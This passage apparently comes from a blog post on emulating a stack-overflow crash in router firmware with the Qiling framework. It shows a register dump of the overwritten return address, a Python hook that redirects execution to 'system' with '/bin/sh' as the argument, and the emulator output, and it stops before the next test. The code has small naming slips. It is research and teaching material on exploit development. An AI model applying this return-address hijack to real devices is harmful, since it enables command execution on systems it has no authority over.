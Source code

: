 ```
[-] s8	:	 0x41414141
[-] ra	:	 0x41414141
[-] status	:	 0x0
[-] lo	:	 0x0
[-] hi	:	 0x0
[-] badvaddr	:	 0x0
[-] cause	:	 0x0
[-] pc	:	 0x41414140
...
```
Considering this scenario, my idea was to overwrite the return address with the address of `system`, previously setting up the parameters as needed. I know that this should work as the exploit included in Metasploit does the same.

To test my hypothesis, I've decided,as a first step, to get rid of all the complexities and _simulate_ the exploitation. The idea was to allocate some memory, write our command there, load the memory address in the required register and change the return address to point to `system` function. Sounds like a lot of work right? Not for Qiling, check it out:

```Python
...
RETURN_CORRUPTED_STACK = 0x0040c594     # From the previous blog post.
QILING_SYSTEM = 0x0041eb50              # This was retrieved enabling debugging
                                        # and connecting to GDB.Once at the
                                        # initial breakpoint I executed:
                                        # x/10i system to obtain system function addr

def simulate_exploitation(ql):
    ql.nprint("** at simulate_exploitation **")
    cmd = ql.mem.map_anywhere(20)       # Qiling will allocate a chunk of 20 bytes
                                        # for us and return its address. We
                                        # will write our command there
    
    ql.mem.string(command, "/bin/sh")   # We write our string
    ql.reg.a0 = command                 # We set register a0 with the address
                                        # of our command
    ql.reg.ra = QILING_SYSTEM           # and finally we change the $ra register
...

ql.hook_address(simulate_exploit, RETURN_CORRUPTED_STACK)   # We'll call our callback
                                                            # when reaching the ret
                                                            # from hedwig_main
ql.run()
```

As you can see it's pretty straightforward to simulate our exploit. Let's see what happens:

```
...
** at simulate_exploitation **
rt_sigaction(0x3, 0x7ff3c430, = 0x7ff3c450) = 0
rt_sigaction(0x2, 0x7ff3c430, = 0x7ff3c450) = 0
rt_sigaction(0x12, 0x7ff3c430, = 0x7ff3c450) = 0
[!] 0x77507144: syscall ql_syscall_fork number = 0xfa2(4002) not implemented
rt_sigaction(0x3, 0x7ff3c430, = 0x7ff3c450) = 0
rt_sigaction(0x2, 0x7ff3c430, = 0x7ff3c450) = 0
[!] Syscall ERROR: ql_syscall_wait4 DEBUG: [Errno 10] No child processes
ChildProcessError: [Errno 10] No child processes
...
```
It looks like it worked!? I think that what's happening is that we are reaching `system` function and at some point `system` is trying to use the `fork syscall`, which Qiling does not support.   
To confirm that my idea was working I did two things: First, I set a breakpoint on `system` and checked that I hit the breakpoint at some point (it happened); Second, and more interesting to show, I changed the call to `system` for `exit`. Let's see what happens:

